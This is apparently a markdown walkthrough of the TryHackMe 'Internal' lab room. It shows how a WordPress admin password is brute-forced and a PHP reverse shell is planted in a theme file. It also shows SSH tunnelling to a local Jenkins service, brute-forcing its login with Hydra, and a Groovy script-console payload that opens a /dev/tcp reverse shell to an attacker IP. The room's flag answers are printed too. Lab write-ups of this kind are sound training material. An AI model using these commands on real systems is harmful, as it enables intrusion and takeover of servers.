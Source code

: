 # [Internal](https://tryhackme.com/r/room/internal)

![Internal](./images/Internal.png)

[Internal](https://tryhackme.com/r/room/internal) is listed as an Medium room Penetration Testing Challenge. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* WPScan
* Tuneling
* Hydra

## Task 1 - Pre-engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 

**Scope of Work**

The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

* User.txt
* Root.txt

Additionally, the client has provided the following scope allowances:

* Ensure that you modify your hosts file to reflect internal.thm
* Any tools or techniques are permitted in this engagement
* Locate and note all vulnerabilities found
* Submit the flags discovered to the dashboard
* Only the IP address assigned to your machine is in scope

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.


Note - this room can be completed without Metasploit

**Writeups will not be accepted for this room.**

## Answer the questions below

* I understand the scope of work

## Task 2 - Deploy and Engage the Client Environment

Having accepted the project, you are provided with the client assessment environment.  Secure the User and Root flags and submit them to the dashboard as proof of exploitation.

### Enumeration & Exploitation

* Scan open port with Nmap

	```
	nmap $IP -p- --script vuln | tee nmap-scan.txt
	```

	![nmap](./images/nmap.png)

* Scan direcotry with Gobuster

	```
	gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u $IP -t 50 | tee gobuster.txt
	```

	![gobuster](./images/gobuster.png)

	We found directory `/blog`

* Try to open `http://$IP/blog`

	![web-internal](./images/web-internal.png)

	We can see on the title Internal link to `http://internal.thm/blog`, edit /etc/hosts 

	![hosts](./images/hosts.png)

	Open web page again.

	![internal-web](./images/internal-web.png)

* Edit `/etc/hosts`, add target IP as `internal.thm`

	![hosts](./images/hosts.png)

* Scan wordpress with wpscan

	```
	wpscan --url http://internal.thm/blog -e u | tee wpscan.txt
	```

	![wpscan](./images/wpscan.png)

	We find username `admin`

* Try to brute force 

	```
	wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
	```

	![password](./images/password.png)

	We got password `admin`

* Try to login `http://internal.thm/blog/wp-login.php`

	![wp-login](./images/wp-login.png)

	![login](./images/login.png)

	![dashboard](./images/dashboard.png)

* In the web interface, go to “Appearance > Theme Editor > 404.php” and replace the PHP code with a PHP reverse shell

	![theme](./images/theme.png)

* Setup listener on attacke machine

	```
	nc -nvlp 8888
	```

	![listener](./images/listener.png)

* Browsing to the location of this 404 page to get reverse shell

	```
	http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
	```

	![revshell](./images/revshell.png)

* Now we should upgrade our shell to make it more stable with Pyhton

	```
	python -c "import pty; pty.spawn('/bin/bash')"
	```

	![pty](./images/pty.png)

* After some more searching, I found a interesting file called wp-save.txt located in the /opt directory. Opening this file, and we got the credential

	![cred](./images/cred.png)

* Change user to `aubreanna`, and get the `user.txt`

	![aubreanna](./images/aubreanna.png)

* Try to open another file `jenkins.txt`

	![jenkins](./images/jenkins.png)

	It says that an internal Jenkins service is running

	```
	netstat -tan | grep 8080
	```

	![netstat](./images/netstat.png)

	We confirm that the service is only available to localhost

* Use SSH tunneling to connect to this remote service and make it accessible on our attacker machine

	```
	ssh -L 4444:172.17.0.2:8080 aubreanna@$IP
	```

	![ssh](./images/ssh.png)

* Open `localhost:4444` on browser

	![localhost](./images/localhost.png)

* Enable Web Developer Tools, try to login with credential `admin:password`, and request resend

	![request](./images/request.png)

* Brute force login with hydra

	```
	hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 4444 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid"
	```

	![hydra](./images/hydra.png)

* Login Jenkins, we can execute commands and exploit this to establish a reverse shell. 

	![dashboard-jenkins](./images/dashboard-jenkins.png)

* Setup new listener on port 5555

	![listen](./images/listen.png)

* Add script under ‘Manage Jenkins’ > ‘Tools and Actions,’ there is a ‘Script Console’ and click run

	```
	r = Runtime.getRuntime()
	p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.17.127.223/5555;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
	p.waitFor()
	```

	![script](./images/script.png)

* Get the shell and root credential

	![root-cred]

* Login ssh with root credential and get the `root.txt`

	![flag](./images/flag.png)

### Answer the questions below

* User.txt Flag
	
	`THM{int3rna1_fl4g_1}`

	![user](./images/user.png)

* Root.txt Flag

	`THM{d0ck3r_d3str0y3r}`

	![root](./images/root.png)
